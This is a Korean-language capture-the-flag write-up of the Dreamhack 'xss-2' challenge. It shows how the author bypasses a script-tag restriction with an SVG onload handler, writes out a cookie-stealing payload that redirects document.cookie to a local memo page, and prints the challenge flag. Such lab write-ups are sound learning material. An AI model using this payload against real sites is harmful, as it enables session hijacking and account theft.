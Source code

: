 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "xss-2"  Write-UP</h1>
</body>
<br>
<br>
</html>

2024.07.05 풀이

![image](https://github.com/user-attachments/assets/b404888d-c50e-42db-97c0-53437b9f7694)

https://chs777888.tistory.com/45

에서 xss-1 문제를 푼 후, 

조금 더 xss에 대해서, 학습하기 위해

Dreamhack 워게임에 있는 1 단계의 

xss-2 를 풀어보려고 한다.

<br>
</br>
 
일단 해당 서버에 접속해보니, xss-1과 비슷하게 세 페이지가 나온다.

![image](https://github.com/user-attachments/assets/76992046-2b03-42cb-a33d-d1aa8e9cc46c)

![image](https://github.com/user-attachments/assets/515df7ae-fb1b-4672-b90b-70cff4e61197)


다만 조금 다른 점은, vuln 페이지에서 1이라는 말을 하는 알림창이 뜨지 않는 것이다.

 <br>
</br>

![image](https://github.com/user-attachments/assets/e8dca5df-d444-4389-a5b5-388942c63962)

![image](https://github.com/user-attachments/assets/f7536c37-c97f-484e-829c-175c79991b51)

그 후, 문제를 다운받은 후, 압축을 풀어보니, 여러 파일들이 있었는데,

그 파일 중, app.py 파이썬 코드를 열어보았다.

<br>

</br>

![image](https://github.com/user-attachments/assets/d24f4298-b5d0-40c5-81c0-e9408e689bb8)

![image](https://github.com/user-attachments/assets/3ebff2b9-a31e-45fd-aa30-c1ad0e032f81)
 
![image](https://github.com/user-attachments/assets/db40ef78-e164-4631-8cf7-c5e23a335231)


위의 소스 코드를 보니, vuln에서 param을 return 하는 코드가 빠진 거 외에는

xss-1과 똑같은 코드였다.

 <br>
</br>

저번 xsss-1에는 1이라는 알림창을 뜨게 하기 위해

<script>alert(1)</script> 이 있었는데,

이번에는 <script>alert(1)</script>이 있는데도,

이 스크립트 태그가 작동하지 않는 것을 확인할 수 있다. 

스크립트 태그 대신에 다른 것을 입력해야 할 것 같다.

이를 우회해서 할 수 있는 방법이 뭐가 있을까하고 찾아본 결과,

밑에 링크에서 스크립트 태그 대신에,

<svg onload=>를 사용하는 것을 발견하였다.

 <br>
</br>

https://hackerone.com/reports/415484 Shopify disclosed on HackerOne: Stored xss # Description : WAF cut html tages but when put before tages we can bypass it :) . #Step to reproduce : 1-Open your store account 2-Navigate to https://xxx.myshopify.com/admin/

noirstar.tistory.com

이를 참고하여, vuln 페이지 주소창에 <svg onload="alert('1')">을

뒤에 이어붙이니까,

  <br>
  
</br>

![image](https://github.com/user-attachments/assets/0f685328-0881-4ddd-be5b-73782fbbc13d)

다시 1이라는 알림창이 생겼다. 

그래서, 전에 xss-1에서 썼던 코드를 <svg onload=> 형식으로

작성하였다.

 <br>
</br>

```
<svg onload="location.href = 'http://127.0.0.1:8000/memo?memo=' + document.cookie">
```

 <br>
</br>

 ![image](https://github.com/user-attachments/assets/7a0011c6-442c-4c75-9984-f7bd691a9501)

![image](https://github.com/user-attachments/assets/bc4d5054-62cd-455e-a7b4-b0cad747a480)

이를 flag 페이지에 입력해보니, good 알림창이 뜬 것을 확인할 수 있다.

<br>

</br> 

![image](https://github.com/user-attachments/assets/e3f64ee2-fe8f-45f9-a0e6-42dea1aa530f)

그 후, 메모 페이지를 가보니, flag 값이 기록된 것을 확인할 수 있다.....!

 <br>

</br>

```
flag=DH{3c01577e9542ec24d68ba0ffb846508f}
``` 
 <br>
</br>

![image](https://github.com/user-attachments/assets/7633ddaf-c82f-41da-b009-02af6d126bbc)

 


